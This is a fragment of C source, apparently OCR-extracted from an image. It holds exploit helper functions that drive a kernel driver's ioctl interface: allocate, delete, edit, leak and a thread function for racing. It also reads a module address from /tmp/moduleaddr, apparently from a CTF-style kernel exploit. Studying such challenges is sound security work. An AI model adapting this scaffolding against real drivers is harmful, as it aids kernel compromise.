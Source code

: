 ```c

    ioctl(fd , 0x100 , &arg );
    error("error");
}

void * block_edit(void *index){
    args arg;
    arg.index = *(size_t*)index;
    arg.size = 0;
    arg.data =(char *) mem;

    ioctl(fd , 0x300 , &arg );
    error("error");
}

void delete(size_t index){
    args arg;
    arg.index = index;
    arg.size = 0;
    arg.data = 0;

    int res = ioctl(fd , 0x200 , &arg );
    if(!res){
        info("Detele a chunk" , 0);
    }else{
        error("Can not detele chunk");
    }
}

void edit(size_t index , size_t size , char *data){
    args arg;
    arg.index = index;
    arg.size = size;
    arg.data = data;

    int res = ioctl(fd , 0x300, &arg );
}

void leak( char *data){
    args arg;
    arg.index = 0;
    arg.size = 0;
    arg.data = data;

    int res = ioctl(fd , 0x64 , &arg );
}

void note_read(size_t index, char *data ){
    int res = read(fd , data , index);
}

void note_write(size_t index, char *data){
    int res = write(fd , data , index);
    if(!res){
        info("Edit chunk data" , 0);
    }else{
        error("Can not Edit chunk data");
    }
}

size_t get_mod_addr()
{
    FILE* fd =  fopen("/tmp/moduleaddr", "r");
```